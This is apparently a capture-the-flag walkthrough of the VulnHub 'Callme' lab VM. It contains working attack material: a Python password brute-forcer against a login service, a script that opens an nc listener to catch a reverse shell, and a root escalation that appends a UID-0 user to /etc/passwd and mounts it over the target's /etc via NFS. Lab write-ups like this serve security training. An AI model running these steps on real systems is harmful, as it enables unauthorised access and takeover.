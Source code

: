 ```yaml
---
layout: post
title:  "VulnHub - Callme"
date:   2020-12-15 23:23:23 +0300
categories: [vulnhub,walkthrough]
pin: false
tags: [tcpdump,programming,mount.nfs,passwd,enumeration]
---
```

You’ll find this vm here :  `https://www.vulnhub.com/entry/callme-1,615/`

## VulnHub - Callme

#### Port Scan

- Nmap found three open ports: `22`, `111` and `2323`
- For now let's focus on port `2323`

![image]( /assets/img/callme/1.PNG)

#### Finding correct username

- The server asking for username & password<
- After the login attempt with a random credentials, the message "user does not exist" appeared
- This will help us to identify the valid usernames

![image]( /assets/img/callme/2.PNG)

I tried common username like admin, and the message "user does not exist" not appeared.<br> So, `admin` is a valid username

![image]( /assets/img/callme/3.PNG)

####  Creating brute force script

{% highlight python %}
import socket
import time

print("Script by Alienum, vm by Foxlox")
with open('10-million-password-list-top-1000000.txt') as file:
 for password in file:
  username = b"admin"
  ip = "10.0.2.108"
  port = 2323
  s = socket.socket()
  s.connect((ip, port))
  print(s.recv(1024))
  print(s.recv(1024))
  s.send(username+b'\r\n')
  print(s.recv(1024))
  s.send(password.strip().encode()+b'\r\n')
  re = s.recv(1024)
  print(re)
  print(s.recv(1024))
  print(password.strip())
  time.sleep(1.2)
  if not "Wrong password for user admin" in str(re):
   print("FOXYFOXYFOXYFOXYFOXYFOXYFOXY")
   print(password)
   break
{% endhighlight %}

- After a few minutes the password found

![image]( /assets/img/callme/4.PNG)

Each time we successfully log in to the system, it returns a random number in words.<br>Let's understand what it means

![image]( /assets/img/callme/5.PNG)

#### Tcpdump to understand

<code>sudo tcpdump -XX -i eth0 src TARGET_IP</code>

We understand that every time we successfully connect to the server, it tries to connect to the port of our system that it had previously sent in a number with words. For example, if the server sends `ONE THOUSAND FOUR HUNDRED  TWELVE` it tries to connect to our system to port `1412`

![image]( /assets/img/callme/6.PNG)

#### Creating login & listener script

{% highlight python %}
from word2number import w2n
import socket
import time
import os
print("Script by Alienum, vm by Foxlox")

while True:
 username = b"admin"
 password = b"booboo"
 ip = "10.0.2.108"
 port = 2323
 s = socket.socket()
 s.connect((ip, port))
 print(s.recv(1024))
 print(s.recv(1024))
 s.send(username+b'\r\n')
 print(username)
 print(s.recv(1024))
 s.send(password+b'\r\n')
 print(password)
 re = s.recv(1024)
 print(re)
 w2n = w2n.word_to_num(re.decode().lower().strip())
 cmd = "nc -lvnp "+str(w2n)
 os.system(cmd)
{% endhighlight %}


- After running the script we have the shell


![image]( /assets/img/callme/7.PNG)


#### SSH Login, avoid wine shell

![image]( /assets/img/callme/8.PNG)

![image]( /assets/img/callme/9.PNG)

#### Searching fox's password

```
cat startup
find / -name "recallserver.exe" 2>/dev/null
```

![image]( /assets/img/callme/10.PNG)

- strings command not found so we need to download recallserver.exe locally

![image]( /assets/img/callme/11.PNG)

- We found the possible password for user fox, the possible password is `tutankamenFERILLI`

![image]( /assets/img/callme/12.PNG)

#### Privileges Escalation

![image]( /assets/img/callme/13.PNG)

- Writing a user to /etc/passwd locally

{% highlight python %}
openssl passwd -1
Password: alienum
Verifying - Password: alienum
1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/
{% endhighlight %}

``` echo 'alien:$1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/:0:0::/root:/bin/bash' >> /etc/passwd```

![image]( /assets/img/callme/14.PNG)

- In the target system

```
 sudo mount.nfs 10.0.2.106:/etc /etc
```

![image]( /assets/img/callme/15.PNG)

#### Rooted

![image]( /assets/img/callme/16.PNG)
